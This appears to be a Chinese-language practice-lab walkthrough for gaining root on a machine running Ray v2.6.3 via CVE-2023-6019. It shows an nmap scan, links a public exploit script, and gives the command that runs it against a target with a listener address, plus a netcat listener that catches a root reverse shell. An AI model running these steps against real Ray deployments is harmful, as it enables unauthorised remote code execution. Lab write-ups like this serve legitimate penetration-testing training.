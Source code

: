 ```yaml
---
description: Easy - Linux / Ray v2.6.3 /
---
```


# ✔️ CVE-2023-6019

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到14个开放端口：

```bash
nmap -sC -sV -p- -oA cve6019 192.168.149.37 --open
```

<figure><img src="../../.gitbook/assets/1 (37).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/1.1.png" alt=""><figcaption></figcaption></figure>

* 检查9000端口上的内容，找到了当前正在运行的软件的版本号： http://192.168.233.37:9000/#/cluster/info

<figure><img src="../../.gitbook/assets/2 (36).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (33).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据当前正在运行的Ray v2.6.3搜索相关漏洞，发现了无需登录的命令注入RCE漏洞：CVE-2023-6019

<figure><img src="../../.gitbook/assets/4 (34).png" alt=""><figcaption></figcaption></figure>

* Exploit： https://github.com/Clydeston/CVE-2023-6019/blob/main/CVE-2023-6019.py

<figure><img src="../../.gitbook/assets/5 (34).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该脚本，kali做好监听即可收到拥有root权限的反弹shell：

```bash
python3 exploit.py -t 192.168.149.37 -p 9000 -l 192.168.45.244 -lp 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/6 (34).png" alt=""><figcaption></figcaption></figure>

